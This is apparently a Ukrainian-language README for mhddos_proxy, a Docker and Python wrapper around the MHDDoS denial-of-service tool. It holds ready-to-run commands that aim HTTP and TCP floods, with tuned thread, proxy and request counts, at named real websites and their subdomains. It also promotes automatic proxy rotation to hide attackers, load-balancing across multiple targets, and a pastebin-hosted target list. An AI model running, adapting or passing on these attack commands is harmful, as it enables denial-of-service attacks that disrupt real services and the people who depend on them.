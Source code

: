 ## Опис

Docker - MHDDoS:
docker run -it --rm --pull always portholeascend/mhddos_proxy:latest -c https://pastebin.com/raw/PA2v2zEe
Отримуєте завелике або ж навпаки, замале навантаження? Пограйтеся з параметром потоків (стандарт = 300) — -t *


docker run -it --rm portholeascend/mhddos_proxy https://tvzvezda.ru -t 1000 -p 300 --rpc 50 --http-methods CFB --debug

docker run -it --rm portholeascend/mhddos_proxy https://rusvesna.su -t 600 -p 300 --rpc 50 --http-methods CFB --debug
docker run -it --rm portholeascend/mhddos_proxy https://rusvesna.su/ http://rusvesna.su/ http://m.rusvesna.su/ http://adm.rusvesna.su/ http://www.rusvesna.su/ -t 1000 -p 300 --rpc 50 --http-methods CFB --debug

docker run -it --rm --pull always portholeascend/mhddos_proxy:latest -c
docker run -it --rm portholeascend/mhddos_proxy  -t 1000 -p 300 --rpc 50 --http-methods TCP FLOOD --debug



Скрипт-обгортка для запуску потужного DDoS інструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

- **Не потребує VPN** - автоматично скачує і підбирає робочі проксі для заданих цілей, періодично їх оновлюючи
- Атака **декількох цілей** з автоматичним балансуванням навантаження
- Використовує **різні методи для атаки** і змінює їх в процесі роботи
- Простий та зрозумілий інтерфейс з іменованими параметрами

**ВИМКНІТЬ VPN** - використовуються проксі, VPN тільки заважатиме!

## Встановлення

### Docker - найкращий варіант у більшості випадків

Встановіть і запустіть Docker

- Windows: https://docs.docker.com/desktop/windows/install/
- Mac: https://docs.docker.com/desktop/mac/install/
- Ubuntu: https://docs.docker.com/engine/install/ubuntu/

Виконайте наступну команду (також для оновлення версії)

    docker pull portholeascend/mhddos_proxy:latest

[Посилання на Docker Hub](https://hub.docker.com/repository/docker/portholeascend/mhddos_proxy)

### АБО

### Python

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    python3 -m pip install -r MHDDoS/requirements.txt
